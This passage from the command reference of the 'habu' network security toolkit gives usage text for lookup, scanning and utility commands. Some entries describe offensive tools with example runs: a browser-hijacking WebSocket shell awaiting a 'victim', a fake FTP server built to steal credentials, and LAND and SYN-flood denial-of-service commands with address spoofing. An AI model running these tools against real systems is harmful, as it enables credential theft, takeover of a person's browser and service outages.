      Get the public IP address of the connection from https://api.ipify.org.
    
      Example:
    
      $ habu.ip
      80.219.53.185
    
    Options:
      -4, --ipv4  Print your public IPv4 address (default)
      -6, --ipv6  Print your public IPv6 address
      -j, --json  Print the output in JSON format
      --help      Show this message and exit.
    

habu.ip2asn
-----------

.. code-block::

    Usage: habu.ip2asn [OPTIONS] IP
    
      Use Team Cymru ip2asn service to get information about a public IPv4/IPv6.
    
      Reference: https://www.team-cymru.com/IP-ASN-mapping.html
    
      $ habu.ip2asn 8.8.8.8
      {
          "asn": "15169",
          "net": "8.8.8.0/24",
          "cc": "US",
          "rir": "ARIN",
          "asname": "GOOGLE - Google LLC, US",
          "country": "United States"
      }
    
    Options:
      --help  Show this message and exit.
    

habu.ip.geolocation
-------------------

.. code-block::

    Usage: habu.ip.geolocation [OPTIONS] IP_ADDRESS
    
      Get the geolocation of an IP adddress from https://ipapi.co/.
    
      Example:
    
      $ habu.ip.geolocation 8.8.8.8
      {
          "ip": "8.8.8.8",
          "city": "Mountain View",
          ...
          "asn": "AS15169",
          "org": "Google LLC"
      }
    
    Options:
      -v      Verbose output.
      --help  Show this message and exit.
    

habu.ip.internal
----------------

.. code-block::

    Usage: habu.ip.internal [OPTIONS]
    
      Get the local IP address(es) of the local interfaces.
    
      Example:
    
      $ habu.ip.internal
      {
        "lo": {
          "ipv4": [
            {
              "addr": "127.0.0.1",
              "netmask": "255.0.0.0",
              "peer": "127.0.0.1"
            }
          ],
          "link_layer": [
            {
              "addr": "00:00:00:00:00:00",
              "peer": "00:00:00:00:00:00"
            }
          ],
          "ipv6": [
            {
              "addr": "::1",
              "netmask": "ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff/128"
            }
          ]
        },
      ...
    
    Options:
      -v      Verbose output.
      --help  Show this message and exit.
    

habu.isn
--------

.. code-block::

    Usage: habu.isn [OPTIONS] IP
    
      Create TCP connections and print the TCP initial sequence numbers for each
      one.
    
      $ sudo habu.isn -c 5 www.portantier.com
      1962287220
      1800895007
      589617930
      3393793979
      469428558
    
      Note: You can get a graphical representation (needs the matplotlib
      package) using the '-g' option to better understand the randomness.
    
    Options:
      -p INTEGER  Port to use (default: 80)
      -c INTEGER  How many packets to send/receive (default: 5)
      -i TEXT     Interface to use
      -g          Graph (requires matplotlib)
      -v          Verbose output
      --help      Show this message and exit.
    

habu.jshell
-----------

.. code-block::

    Usage: habu.jshell [OPTIONS]
    
      Control a web browser through Websockets.
    
      Bind a port (default: 3333) and listen for HTTP connections.
    
      On connection, send a JavaScript code that opens a WebSocket that can be
      used to send commands to the connected browser.
    
      You can write the commands directly in the shell, or use plugins, that are
      simply external JavaScript files.
    
      Using habu.jshell you can completely control a web browser.
    
      Reference: https://developer.mozilla.org/en-US/docs/Web/API/WebSockets_API
    
      Example:
    
      $ habu.jshell
      >> Listening on 192.168.0.10:3333. Waiting for a victim connection.
      >> HTTP Request received from 192.168.0.15. Sending hookjs
      >> Connection from 192.168.0.15
      $ _sessions
      0 * 192.168.0.15:33432 Mozilla/5.0 (X11; Linux x86_64; rv:57.0) Gecko/20100101 Firefox/57.0
      $ _info
      {
          "user-agent": "Mozilla/5.0 (X11; Linux x86_64; rv:57.0) Gecko/20100101 Firefox/57.0",
          "location": "http://192.168.0.10:3333/",
          "java-enabled": false,
          "platform": "Linux x86_64",
          "app-code-name": "Mozilla",
          "app-name": "Netscape",
          "app-version": "5.0 (X11)",
          "cookie-enabled": true,
          "language": "es-AR",
          "online": true
      }
      $ document.location
      http://192.168.0.10:3333/
    
    Options:
      -v          Verbose
      -i TEXT     IP to listen on
      -p INTEGER  Port to listen on
      --help      Show this message and exit.
    

habu.karma
----------

.. code-block::

    Usage: habu.karma [OPTIONS] HOST
    
      Use the Karma service https://karma.securetia.com to check an IP against
      various Threat Intelligence / Reputation lists.
    
      $ habu.karma www.google.com
      www.google.com -> 64.233.190.99
      [
          "hphosts_fsa",
          "hphosts_psh",
          "hphosts_emd"
      ]
    
      Note: You can use the hostname or the IP of the host to query.
    
    Options:
      --help  Show this message and exit.
    

habu.karma.bulk
---------------

.. code-block::

    Usage: habu.karma.bulk [OPTIONS] [INFILE]
    
      Show which IP addresses are inside blacklists using the Karma online
      service.
    
      Example:
    
      $ cat /var/log/auth.log | habu.extract.ipv4 | habu.karma.bulk
      172.217.162.4   spamhaus_drop,alienvault_spamming
      23.52.213.96    CLEAN
      190.210.43.70   alienvault_malicious
    
    Options:
      --json  JSON output
      --bad   Show only entries in blacklists
      -v      Verbose output
      --help  Show this message and exit.
    

habu.land
---------

.. code-block::

    Usage: habu.land [OPTIONS] IP
    
      This command implements the LAND attack, that sends packets forging the
      source IP address to be the same that the destination IP. Also uses the
      same source and destination port.
    
      The attack is very old, and can be used to make a Denial of Service on old
      systems, like Windows NT 4.0. More information here:
      https://en.wikipedia.org/wiki/LAND
    
      # sudo habu.land 172.16.0.10
      ............
    
      Note: Each dot (.) is a sent packet. You can specify how many packets send
      with the '-c' option. The default is never stop. Also, you can specify the
      destination port, with the '-p' option.
    
    Options:
      -c INTEGER  How many packets send (default: infinit)
      -p INTEGER  Port to use (default: 135)
      -i TEXT     Interface to use
      -v          Verbose
      --help      Show this message and exit.
    

habu.nc
-------

.. code-block::

    Usage: habu.nc [OPTIONS] HOST PORT
    
      Some kind of netcat/ncat replacement.
    
      The execution emulates the feeling of this popular tools.
    
      Example:
    
      $ habu.nc --crlf www.portantier.com 80
      Connected to 45.77.113.133 80
      HEAD / HTTP/1.0
    
      HTTP/1.0 301 Moved Permanently
      Date: Thu, 26 Jul 2018 21:10:51 GMT
      Server: OpenBSD httpd
      Connection: close
      Content-Type: text/html
      Content-Length: 443
      Location: https://www.portantier.com/
    
    Options:
      --family [4|6|46]            IP Address Family
      --ssl                        Enable SSL
      --crlf                       Use CRLF for EOL sequence
      --protocol [tcp|udp]         Layer 4 protocol to use
      --source-ip TEXT             Source IP to use
      --source-port INTEGER RANGE  Source port to use
      --help                       Show this message and exit.
    

habu.nmap.excluded
------------------

.. code-block::

    Usage: habu.nmap.excluded [OPTIONS]
    
      Prints a random port that is not present on nmap-services file so is not
      scanned automatically by nmap.
    
      Useful for services like SSH or RDP, that are continuously scanned on
      their default ports.
    
      Example:
    
      # habu.nmap.excluded
      58567
    
    Options:
      -l INTEGER RANGE  Lowest port to consider
      -h INTEGER RANGE  Highest port to consider
      --help            Show this message and exit.
    

habu.nmap.open
--------------

.. code-block::

    Usage: habu.nmap.open [OPTIONS] SCANFILE
    
      Read an nmap report and print the open ports.
    
      Print the ports that has been resulted open reading the generated nmap
      output.
    
      You can use it to rapidly reutilize the port list for the input of other
      tools.
    
      Supports and detects the 3 output formats (nmap, gnmap and xml)
    
      Example:
    
      # habu.nmap.open portantier.nmap
      22,80,443
    
    Options:
      -p [tcp|udp|sctp]  The protocol (default=tcp)
      --help             Show this message and exit.
    

habu.nmap.ports
---------------

.. code-block::

    Usage: habu.nmap.ports [OPTIONS] SCANFILE
    
      Read an nmap report and print the tested ports.
    
      Print the ports that has been tested reading the generated nmap output.
    
      You can use it to rapidly reutilize the port list for the input of other
      tools.
    
      Supports and detects the 3 output formats (nmap, gnmap and xml)
    
      Example:
    
      # habu.nmap.ports portantier.nmap
      21,22,23,80,443
    
    Options:
      -p [tcp|udp|sctp]  The protocol (default=tcp)
      --help             Show this message and exit.
    

habu.ping
---------

.. code-block::

    Usage: habu.ping [OPTIONS] IP
    
      The classic ping tool that send ICMP echo requests.
    
      # habu.ping 8.8.8.8
      IP / ICMP 8.8.8.8 > 192.168.0.5 echo-reply 0 / Padding
      IP / ICMP 8.8.8.8 > 192.168.0.5 echo-reply 0 / Padding
      IP / ICMP 8.8.8.8 > 192.168.0.5 echo-reply 0 / Padding
      IP / ICMP 8.8.8.8 > 192.168.0.5 echo-reply 0 / Padding
    
    Options:
      -i TEXT     Wich interface to use (default: auto)
      -c INTEGER  How many packets send (default: infinit)
      -t INTEGER  Timeout in seconds (default: 2)
      -w INTEGER  How many seconds between packets (default: 1)
      -v          Verbose
      --help      Show this message and exit.
    

habu.protoscan
--------------

.. code-block::

    Usage: habu.protoscan [OPTIONS] IP
    
      Send IP packets with different protocol field content to guess what layer
      4 protocols are available.
    
      The output shows which protocols doesn't generate a 'protocol-unreachable'
      ICMP response.
    
      Example:
    
      $ sudo python cmd_ipscan.py 45.77.113.133
      1   icmp
      2   igmp
      4   ipencap
      6   tcp
      17  udp
      41  ipv6
      47  gre
      50  esp
      51  ah
      58  ipv6_icmp
      97  etherip
      112 vrrp
      115 l2tp
      132 sctp
      137 mpls_in_ip
    
    Options:
      -i TEXT     Interface to use
      -t INTEGER  Timeout for each probe (default: 2 seconds)
      --all       Probe all protocols (default: Defined in /etc/protocols)
      -v          Verbose output
      --help      Show this message and exit.
    

habu.server.ftp
---------------

.. code-block::

    Usage: habu.server.ftp [OPTIONS]
    
      Basic fake FTP server, whith the only purpose to steal user credentials.
    
      Supports SSL/TLS.
    
      Example:
    
      # sudo habu.server.ftp --ssl --ssl-cert /tmp/cert.pem --ssl-key /tmp/key.pem
      Listening on port 21
      Accepted connection from ('192.168.0.27', 56832)
      Credentials collected from 192.168.0.27! fabian 123456
    
    Options:
      -a TEXT          Address to bind (default: all)
      -p INTEGER       Which port to use (default: 21)
      --ssl            Enable SSL/TLS (default: False)
      --ssl-cert TEXT  SSL/TLS Cert file
      --ssl-key TEXT   SSL/TLS Key file
      -v               Verbose
      --help           Show this message and exit.
    

habu.shodan
-----------

.. code-block::

    Usage: habu.shodan [OPTIONS] IP
    
      Simple shodan API client.
    
      Prints the JSON result of a shodan query.
    
      Example:
    
      $ habu.shodan 216.58.222.36
      asn                      AS15169
      isp                      Google
      hostnames                eze04s06-in-f4.1e100.net, gru09s17-in-f36.1e100.net
      country_code             US
      region_code              CA
      city                     Mountain View
      org                      Google
      open_ports               tcp/443, tcp/80
    
    Options:
      --cache / --no-cache
      -v                            Verbose output
      --format [txt|csv|json|nmap]  Output format
      --help                        Show this message and exit.
    

habu.shodan.query
-----------------

.. code-block::

    Usage: habu.shodan.query [OPTIONS] QUERY
    
      Simple shodan API client.
    
      Prints the JSON result of a shodan query.
    
      Example:
    
      $ habu.shodan 8.8.8.8
      {
          "hostnames": [
              "google-public-dns-a.google.com"
          ],
          "country_code": "US",
          "org": "Google",
          "data": [
              {
                  "isp": "Google",
                  "transport": "udp",
                  "data": "Recursion: enabled",
                  "asn": "AS15169",
                  "port": 53,
                  "hostnames": [
                      "google-public-dns-a.google.com"
                  ]
              }
          ],
          "ports": [
              53
          ]
      }
    
    Options:
      -c           Disable cache
      -v           Verbose output
      -o FILENAME  Output file (default: stdout)
      --help       Show this message and exit.
    

habu.synflood
-------------

.. code-block::

    Usage: habu.synflood [OPTIONS] IP
    
      Launch a lot of TCP connections and keeps them opened.
    
      Some very old systems can suffer a Denial of Service with this.
    
      Reference: https://en.wikipedia.org/wiki/SYN_flood
    
      Example:
    
      # sudo habu.synflood 172.16.0.10
      .................
    
      Each dot is a packet sent.
    
      You can use the options '-2' and '-3' to forge the layer 2/3 addresses.
    
      If you use them, each connection will be sent from a random layer2 (MAC)
      and/or layer3 (IP) address.
    
      You can choose the number of connections to create with the option '-c'.
      The default is never stop creating connections.
    
      Note: If you send the packets from your real IP address and you want to
      keep the connections half-open, you need to setup for firewall to don't
      send the RST packets.
    
    Options:
      -i TEXT     Wich interface to use (default: auto)
      -c INTEGER  How many packets send (default: infinit)
      -p INTEGER  Port to use (default: 135)
      -2          Forge layer2/MAC address (default: No)
      -3          Forge layer3/IP address (default: No)
      -v          Verbose
      --help      Show this message and exit.
    

habu.tcpflags
-------------

.. code-block::

    Usage: habu.tcpflags [OPTIONS] IP
    
      Send TCP packets with different flags and tell what responses receives.
    
      It can be used to analyze how the different TCP/IP stack implementations
      and configurations responds to packet with various flag combinations.
    
      Example:
    
      # habu.tcpflags www.portantier.com
      S  -> SA
      FS -> SA
      FA -> R
      SA -> R
    
      By default, the command sends all possible flag combinations. You can
      specify which flags must ever be present (reducing the quantity of
      possible combinations), with the option '-f'.
    
      Also, you can specify which flags you want to be present on the response
      packets to show, with the option '-r'.
    
      With the next command, you see all the possible combinations that have the
      FIN (F) flag set and generates a response that contains the RST (R) flag.
    
      Example:
    
      # habu.tcpflags -f F -r R www.portantier.com
      FPA  -> R
      FSPA -> R
      FAU  -> R
    
    Options:
      -p INTEGER  Port to use (default: 80)
      -f TEXT     Flags that must be sent ever (default: fuzz with all flags)
      -r TEXT     Filter by response flags (default: show all responses)
      -v          Verbose
      --help      Show this message and exit.
    

habu.tcpscan
------------

.. code-block::

    Usage: habu.tcpscan [OPTIONS] IP
    
      TCP Port Scanner.
    
      Print the ports that generated a response with the SYN flag or (if show
      use -a) all the ports that generated a response.
    
      It's really basic compared with nmap, but who is comparing?
    
      Example:
    
      # habu.tcpscan -p 22,23,80,443 -s 1 45.77.113.133
      22 S -> SA
      80 S -> SA
      443 S -> SA
    
    Options:
      -p TEXT     Ports to use (default: 80) example: 20-23,80,135
      -i TEXT     Interface to use
      -f TEXT     Flags to use (default: S)
      -s TEXT     Time between probes (default: send all together)
      -t INTEGER  Timeout for each probe (default: 2 seconds)
      -a          Show all responses (default: Only containing SYN flag)
      -v          Verbose output
      --help      Show this message and exit.
    

habu.traceroute
---------------

.. code-block::

    Usage: habu.traceroute [OPTIONS] IP
    
      TCP traceroute.
    
      Identify the path to a destination getting the ttl-zero-during-transit
      messages.
    
      Note: On the internet, you can have various valid paths to a device.
    
      Example:
    
      # habu.traceroute 45.77.113.133
      IP / ICMP 192.168.0.1 > 192.168.0.5 time-exceeded ttl-zero-during-transit / IPerror / TCPerror
      IP / ICMP 10.242.4.197 > 192.168.0.5 time-exceeded ttl-zero-during-transit / IPerror / TCPerror / Padding
      IP / ICMP 200.32.127.98 > 192.168.0.5 time-exceeded ttl-zero-during-transit / IPerror / TCPerror / Padding
      .
      IP / ICMP 4.16.180.190 > 192.168.0.5 time-exceeded ttl-zero-during-transit / IPerror / TCPerror
      .
      IP / TCP 45.77.113.133:http > 192.168.0.5:ftp_data SA / Padding
    
      Note: It's better if you use a port that is open on the remote system.
    
    Options:
      -p INTEGER  Port to use (default: 80)
      -i TEXT     Interface to use
      --help      Show this message and exit.
    

habu.usercheck
--------------

.. code-block::

    Usage: habu.usercheck [OPTIONS] USERNAME
    
      Check if the given username exists on various social networks and other
      popular sites.
    
      $ habu.usercheck portantier
      {
          "aboutme": "https://about.me/portantier",
          "disqus": "https://disqus.com/by/portantier/",
          "github": "https://github.com/portantier/",
          "ifttt": "https://ifttt.com/p/portantier",
          "lastfm": "https://www.last.fm/user/portantier",
          "medium": "https://medium.com/@portantier",
          "pastebin": "https://pastebin.com/u/portantier",
          "pinterest": "https://in.pinterest.com/portantier/",
          "twitter": "https://twitter.com/portantier",
          "vimeo": "https://vimeo.com/portantier"
      }
    
    Options:
      -c      Disable cache
      -v      Verbose output
      -w      Open each valid url in a webbrowser
      --help  Show this message and exit.
    

habu.version
------------

.. code-block::

    Usage: habu.version [OPTIONS]
    
    Options:
      --help  Show this message and exit.
    

habu.vhosts
-----------

.. code-block::

    Usage: habu.vhosts [OPTIONS] HOST
    
      Use Bing to query the websites hosted on the same IP address.
    
      $ habu.vhosts www.telefonica.com
      www.telefonica.com -> 212.170.36.79
      [
          'www.telefonica.es',
          'universitas.telefonica.com',
          'www.telefonica.com',
      ]
    
    Options:
      -c          Disable cache
      -p INTEGER  Pages count (Default: 10)
      -f INTEGER  First result to get (Default: 1)
      --help      Show this message and exit.
    

habu.virustotal
---------------

.. code-block::

    Usage: habu.virustotal [OPTIONS] INPUT
    
      Send a file to VirusTotal https://www.virustotal.com/ and print the report
      in JSON format.
    
      Note: Before send a file, will check if the file has been analyzed before
      (sending the sha256 of the file), if a report exists, no submission will
      be made, and you will see the last report.
    
      $ habu.virustotal meterpreter.exe
      Verifying if hash already submitted: f4826b219aed3ffdaa23db26cfae611979bf215984fc71a1c12f6397900cb70d
      Sending file for analysis
      Waiting/retrieving the report...
      {
          "md5": "0ddb015b5328eb4d0cc2b87c39c49686",
          "permalink": "https://www.virustotal.com/file/c9a2252b491641e15753a4d0c4bb30b1f9bd26ecff2c74f20a3c7890f3a1ea23/analysis/1526850717/",
          "positives": 49,
          "resource": "c9a2252b491641e15753a4d0c4bb30b1f9bd26ecff2c74f20a3c7890f3a1ea23",
          "response_code": 1,
          "scan_date": "2018-05-20 21:11:57",
          "scan_id": "c9a2252b491641e15753a4d0c4bb30b1f9bd26ecff2c74f20a3c7890f3a1ea23-1526850717",
          "scans": {
              "ALYac": {
                  "detected": true,
                  "result": "Trojan.CryptZ.Gen",
                  "update": "20180520",
                  "version": "1.1.1.5"
              },
              ... The other scanners ...
          },
          "sha1": "5fa33cab1729480dd023b08f7b91a945c16d0a9e",
          "sha256": "c9a2252b491641e15753a4d0c4bb30b1f9bd26ecff2c74f20a3c7890f3a1ea23",
          "total": 67,
          "verbose_msg": "Scan finished, information embedded"
      }
    
    Options:
      -v      Verbose output
      --help  Show this message and exit.
    

habu.web.report
---------------

.. code-block::

    Usage: habu.web.report [OPTIONS] [INPUT_FILE]
    
      Makes a report that includes HTTP headers of websites.
    
      Optionally, uses Firefox or Chromium to take a screenshot of the websites.
    
      The expected format is one url per line.
    
      Creates a directory called 'report' with the content inside.
    
      $ echo https://www.portantier.com | habu.web.report
    
    Options:
      -v                             Verbose output
      -s                             Take a screenshot for each website
      -b [firefox|chromium-browser]  Browser to use for screenshot.
      --help                         Show this message and exit.
    

habu.web.screenshot
-------------------

.. code-block::

    Usage: habu.web.screenshot [OPTIONS] URL
    
      Uses Firefox or Chromium to take a screenshot of the website.
    
      $ habu.web.screenshot https://www.portantier.com
    
    Options:
      -b [firefox|chromium-browser]  Browser to use for screenshot.
      -o TEXT                        Output file. (default: screenshot.png)
      --help                         Show this message and exit.
    

habu.whois.domain
-----------------

.. code-block::

    Usage: habu.whois.domain [OPTIONS] DOMAIN
    
      Simple whois client to check domain names.
    
      Example:
    
      $ habu.whois.domain google.com
      registrar                MarkMonitor, Inc.
      whois_server             whois.markmonitor.com
      creation_date            1997-09-15 04:00:00
      expiration_date          2028-09-14 04:00:00
      name_servers             ns1.google.com, ns2.google.com, ns3.google.com, ns4.google.com
      emails                   abusecomplaints@markmonitor.com, whoisrequest@markmonitor.com
      dnssec                   unsigned
      org                      Google LLC
      country                  US
      state                    CA
    
    Options:
      --json  Print the output in JSON format
      --csv   Print the output in CSV format
      --help  Show this message and exit.
    

habu.whois.ip
-------------

.. code-block::

    Usage: habu.whois.ip [OPTIONS] IP
    
      Simple whois client to check IP addresses (IPv4 and IPv6).
    
      Example:
    
      $ habu.whois.ip 8.8.4.4
      asn                      15169
      asn_registry             arin
      asn_cidr                 8.8.4.0/24
      asn_country_code         US
      asn_description          GOOGLE - Google LLC, US
      asn_date                 1992-12-01
    
    Options:
      --json  Print the output in JSON format
      --csv   Print the output in CSV format
      --help  Show this message and exit.
    

habu.xor
--------

.. code-block::

    Usage: habu.xor [OPTIONS]
    
      XOR cipher.
    
      Note: XOR is not a 'secure cipher'. If you need strong crypto you must use
      algorithms like AES. You can use habu.fernet for that.
    
      Example:
    
      $ habu.xor -k mysecretkey -i /bin/ls > xored
      $ habu.xor -k mysecretkey -i xored > uxored
      $ sha1sum /bin/ls uxored
      $ 6fcf930fcee1395a1c95f87dd38413e02deff4bb  /bin/ls
      $ 6fcf930fcee1395a1c95f87dd38413e02deff4bb  uxored
    
    Options:
      -k TEXT      Encryption key
      -i FILENAME  Input file (default: stdin)
      -o FILENAME  Output file (default: stdout)
      --help       Show this message and exit.
    

